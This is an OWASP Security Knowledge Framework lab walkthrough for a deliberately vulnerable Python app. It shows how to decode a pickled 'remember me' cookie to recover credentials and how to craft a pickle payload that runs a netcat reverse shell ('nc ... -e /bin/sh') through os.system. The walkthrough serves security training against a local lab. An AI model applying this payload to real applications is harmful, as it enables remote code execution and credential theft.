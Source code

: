 # Deserialisation Pickle - 2

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:des-pickle-2
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:des-pickle-2
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

Serialisation is used by application to easely store an object and transfer it across systems and networks. If an application needs to store an instance of a class, it can use serialisation to get a string representation of this object. When the application or an other application needs to use the instance again, it will unserialise the string to get back the object.

Obviously, an attacker can tamper with a string that will be deserialised and potentially trigger unexpected behaviour in the application. Depending on the language and library used, this unexpected behaviour can go from arbitrary object creation to remote code execution.

Some use cases for python pickle: 1) saving a program's state data to disk so that it can carry on where it left off when restarted (persistence) 2) sending python data over a TCP connection in a multi-core or distributed system (marshalling) 3) storing python objects in a database 4) converting an arbitrary python object to a string so that it can be used as a dictionary key (e.g. for caching & memorization).

Lets start the application and register a new user

![](../../.gitbook/assets/DES-Register.png)

![](../../.gitbook/assets/DES-Register2.png)

Please note that (for convenience) your password will be reset if the user already exists. Also note that the username and password are case sensitive.

Now that we have valid credentials, we can login:

![](../../.gitbook/assets/DES-Login1.png)

You can check the 'remember me' checkbox if you want to login next time without providing credentials.

After providing the correct credentials we're logged in:

![](../../.gitbook/assets/DES-Loggedin.png)

To logout, use the link/button in the upper right corner.

The goal is to find where the application uses serialization and create your own serialized object to spawn a reverse shell.

## Exploitation

Once we've successfully logged in using the rememberme checkbox, we can return to the login screen any time and login just by clicking the 'Submit Button' without providing credentials:

![](../../.gitbook/assets/DES-Rememberme1.png)

This results in the following request and response:

![](../../.gitbook/assets/DES-Rememberme2.png)

This works because we received a rememberme cookie during our initial login:

![](../../.gitbook/assets/DES-Rememberme3.png)

As you might have guessed, the remember me cookie is a serialized object, (probably containing your credentials) which will be deserialised and verified, once you submit the login form. This functionality provides you an easy login without entering credentials, but it is not without risk ! If we can deserialise it, the credentials will be leaked. In addition, we can create our own object that that will be deserialized and instantiated if we submit it to the webserver.

If we know or guess the used technology (in this case:pickle serialisation in python), we can try to deserialise the object

From wikipedia: The pickle module implements binary protocols for serializing and de-serializing a Python object structure. “Pickling” is the process whereby a Python object hierarchy is converted into a byte stream, and “unpickling” is the inverse operation, whereby a byte stream (from a binary file or bytes-like object) is converted back into an object hierarchy

```python
import pickle, base64
b64 = 'gASVQAAAAAAAAACMCF9fbWFpbl9flIwDdXNylJOUKYGUfZQojAh1c2VybmFtZZSMBHVzZXKUjAhwYXNzd29yZJSMBHVzZXKUdWIu'
print(pickle.loads(base64.b64decode(b64)).__class__)
```

This shows us the object is an instance of the usr class. So we can enumerate the properties of the object as follows:

```python
import pickle, base64
class usr(object):
    pass

a= usr()
b64 = 'gASVQAAAAAAAAACMCF9fbWFpbl9flIwDdXNylJOUKYGUfZQojAh1c2VybmFtZZSMBHVzZXKUjAhwYXNzd29yZJSMBHVzZXKUdWIu'
a = pickle.loads(base64.b64decode(b64))
print(dir(a))
```

The dir() function returns all properties and methods of the specified object, without the values. This function will return all the properties and methods, even built-in properties which are default for all object.

```
This will output the following:
['__class__', '__delattr__', '__dict__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', '__module__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '__weakref__', 'password', 'username']
```

The attributes we were looking for are 'password' and 'username'

Putting it all toghther:

```python
import pickle, base64
class usr(object):
    pass

a= usr()
b64 = 'gASVQAAAAAAAAACMCF9fbWFpbl9flIwDdXNylJOUKYGUfZQojAh1c2VybmFtZZSMBHVzZXKUjAhwYXNzd29yZJSMBHVzZXKUdWIu'
a = pickle.loads(base64.b64decode(b64))
print(a.username)
print(a.password)
```

Although the above was nice to understand what serialization comprehends, we still need to exploit the vulnerability ;-)

To exploit the vulnerability we'll create an object that runs a system command to start a reverse shell. After instanciating the object, we serialize it and base64 encode it. This output will be our payload.

```python
import pickle, base64,os

class skf(object):
  def __reduce__(self):
    return (os.system,("nc -nv 127.0.0.1 1234 -e /bin/sh",))

a = skf()
ser = pickle.dumps(a)
print (base64.b64encode(ser))
```

_Note: If Netcat (nc) program is not available, change the argument passed at os.system call to sleep(5)._

This will yield the following output:

```
gANjcG9zaXgKc3lzdGVtCnEAWCAAAABuYyAtbnYgMTI3LjAuMC4xIDEyMzQgLWUgL2Jpbi9zaHEBhXECUnEDLg==
```

Now we prepare a net cat listner on our machine, ready to receive the reverse shell:

![](../../.gitbook/assets/DES-nc-listner.png)

We can submit our malicious payload in Burp Suite Repeater by replacing the cookie value with the one we generated above: ![](../../.gitbook/assets/DES-Sendpayload.png)

A revers shell is is connected: ![](../../.gitbook/assets/DES-Shell.png)

## Additional sources

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html" %}
